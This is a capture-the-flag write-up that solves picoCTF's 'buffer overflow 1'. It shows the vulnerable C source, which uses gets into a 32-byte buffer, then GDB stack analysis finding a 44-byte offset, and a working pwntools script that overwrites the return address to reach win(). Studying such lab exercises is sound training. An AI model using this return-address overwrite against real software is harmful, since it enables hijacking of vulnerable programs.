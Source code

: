 # picoCTF buffer overflow 1

This is the 'buffer overflow 1' level from picoCTF. It can be found here, along with the binary source code.

Let's take a look at the code first:
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

So we have the 'main' function that just basically calls 'vuln'. Inside that function, we have a `buf` variable with a size of 32 bytes, and then it calls `gets`, and stores it on this 'buf' variable. 

As we saw in the previous challenge, this functions is insecure due to the lack of size validation before saving it to a variable. 

Anyways, aftet saving out input, it will print the return address where the program will jump. 
The 'win' function seems like a promising target to jump. 

Let's run this in GDB and see what we can do. I'll put a breakpoint right after the 'gets' call. 

```
gdb ./vuln
gef➤ b *vuln+34
gef➤r
```

Here we can see where we at when hits the breakpoint, and in the next instruction, we'll inspect the stack and the return address as well. 

```
    0x804929e <vuln+001d>      call   0x8049050 <gets@plt>
 →  0x80492a3 <vuln+0022>      add    esp, 0x10
```

and here's the stack at this point:
```
gef➤  x/20wx $esp
0xffffceb0:     0xffffcec0      0x000007d4      0xf7fa0e3c      0x08049291
0xffffcec0:     0x41414141      0xf7fd9000      0x00000000      0x0804c000
0xffffced0:     0xffffcfd4      0xf7ffcb80      0xffffcf08      0x08049327
0xffffcee0:     0x0804a0a0      0x0804c000      0xffffcf08      0x0804932f
0xffffcef0:     0xffffcf30      0xf7fbe66c      0xf7fbeb10      0x000003e8
gef➤
```

We see our input starts at `0xffffcec0` because there are 4 'A' ('A' in hex is 0x41).

If we place a new breakpoint inside the 'vuln' function but at the `ret` instruction, we can see where is the program jumping. 
```
gef➤ b *vuln+66
get➤ continue
```
and we can see it's going back to '0x804932f':
```
 →  0x80492c3 <vuln+0042>      ret
   ↳   0x804932f <main+006b>      mov    eax, 0x0
       0x8049334 <main+0070>      lea    esp, [ebp-0x8]
       [...]
```
So, from the information we got from inspecting the stack, we see that address is stored at '0xffffceec'

Calulating the offset from our input: 
`0xffffceec - 0xffffcec0 = 0x2c` which is 44 bytes. 

So, 44 bytes from our input, we will start overwriting the return address. Let's input `44 * 'A' + 4 * 'B'` to see if the program attempts to jump into '0x42424242'.

```
mfumega@pwn-boy:/tmp/here$ ./vuln
Please enter your string:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Okay, time to return... Fingers Crossed... Jumping to 0x42424242
Segmentation fault (core dumped)
```

It worked. So, if we replace the 4 'B' with our 'win' function address, we should continue the execution at that point, and succesfully printing the flag!

Let's find that address first: 
```
gef➤  print win
$2 = {<text variable, no debug info>} 0x80491f6 <win>
```

and now let's build the exploit with pwntools, just to start familiarizing with it.
```python
#!/usr/bin/env python3
from pwn import *
p = process('./vuln')

win_address = 0x80491f6
offset = 44

payload = b'A' * offset
payload += p32(win_address)

p.sendline(payload)
response = p.recvall()
print(response.decode('latin-1'))
```
Make it executable, run it and got the flag. 
```
mfumega@pwn-boy:/tmp/here$ ./do1.py
[+] Starting local process './vuln': pid 287169
[+] Receiving all data: Done (117B)
[*] Process './vuln' stopped with exit code -11 (SIGSEGV) (pid 287169)
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
mock{This_is_a_mock_flag}
```

And we got the local flag. To execute the same code against a remote server, replace the line `p=process(binary_name)` with `p = remote('host', port)`. 
